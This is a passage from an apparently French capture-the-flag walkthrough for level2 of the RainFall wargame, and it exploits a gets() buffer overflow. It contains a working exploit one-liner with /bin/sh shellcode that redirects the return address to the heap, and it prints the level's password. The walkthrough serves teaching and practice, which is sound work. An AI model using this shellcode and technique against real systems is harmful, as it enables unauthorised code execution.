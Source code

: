 Cela confirme la structure exacte nécessaire pour notre *exploit* :
- *Shellcode* au début (sera dupliqué à `0x804a008`).
- *Padding* pour remplir le *buffer* (55 octets après notre *shellcode* de 21 octets).
- 4 octets pour écraser les données du cadre de pile (peut être n'importe quelle valeur, ici "BBBB").
- 4 octets pour écraser l'adresse de retour avec `0x804a008` (adresse du tas).

## L'Exploit Final

```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*55 + "BBBB" + "\x08\xa0\x04\x08"'; cat) | ./level2
```

Décomposition :

- *Shellcode* (21 octets) : `\x6a\x0b\x58...` - Lance `/bin/sh`.
- *Padding* (55 octets) : `"A"*55` - Remplit le reste du *buffer* de 76 octets.
- Écrasement de EBP (4 octets) : `"BBBB"` - Valeur arbitraire pour les données du cadre de pile (qui incluent EBP sauvegardé).
- Adresse de retour (4 octets) : `\x08\xa0\x04\x08` - `0x804a008` au format *little-endian*. Consultez le *walkthrough* du `level1` pour plus de détails sur le *little-endian*.
- `cat` - Maintient `stdin` ouvert pour l'interaction avec le *shell*. Consultez le *walkthrough* du `level1` pour plus de détails.


## Obtenir le Mot de Passe

Après avoir exécuté l'*exploit*, nous obtenons un *shell* et pouvons lire le mot de passe :

```bash
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Passer au Niveau Suivant

Avec le mot de passe obtenu, nous pouvons maintenant passer au `level3` :

```bash
level2@RainFall:~$ su level3
Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
level3@RainFall:~$
```

## Leçons Apprises

1.  **La Protection de la Pile n'est Pas Suffisante** : Des vérifications simples sur les adresses de retour peuvent être contournées en utilisant des régions mémoire alternatives comme le tas.
2.  **La Compréhension de l'Organisation Mémoire est Cruciale** : Savoir comment la mémoire est organisée (pile vs tas) permet des techniques d'*exploitation* créatives.
3.  **Fonctions Dangereuses** : `gets()` reste dangereuse indépendamment des vérifications supplémentaires car elle permet une entrée illimitée.
4.  **Intégrité du Cadre de Pile** : Lors de la redirection de l'exécution, gérer correctement le cadre de pile (*stack frame*, y compris EBP) est important pour des *exploits* fiables.
